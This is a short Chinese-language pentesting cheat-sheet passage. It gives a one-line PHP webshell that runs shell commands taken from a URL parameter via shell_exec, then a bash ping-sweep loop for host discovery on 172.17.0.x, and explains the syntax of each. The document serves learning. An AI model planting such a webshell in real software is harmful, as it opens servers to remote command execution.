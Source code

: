 ### php

1. 一句话webshell

    ```php
    <?php $var=shell_exec($_GET['cmd']);echo $var?>
    ```

    `shell_exec` 是一个函数，用于执行操作系统的命令并返回输出结果。它允许 PHP 脚本与底层操作系统进行交互，并执行各种命令行操作。

    

    

    ## bash脚本

    ### 信息收集

    1. ```bash
        for i in $(seq 1 10); do ping -c 2 172.17.0.$i; done
        ```

    ​		这是bash脚本语言，用于linux中；

    ​		语法说明

    ​			  1. do:是用来标记循环的开始，和done相呼应。循环之间的命令。

    ​          	2. seq:seq是用于打印一些列的数值`seq [选项]... 首数 增量值 尾数`其中有些是可以省略的。`seq` 命令本身不能直接生成数组，				  但可以通过 `$(seq ...)` 结合 bash 的命令替换功能，将 `seq` 生成的数列作为一个数组赋值给变量。

       			3. done：表示结束循环如：while,for循环

    









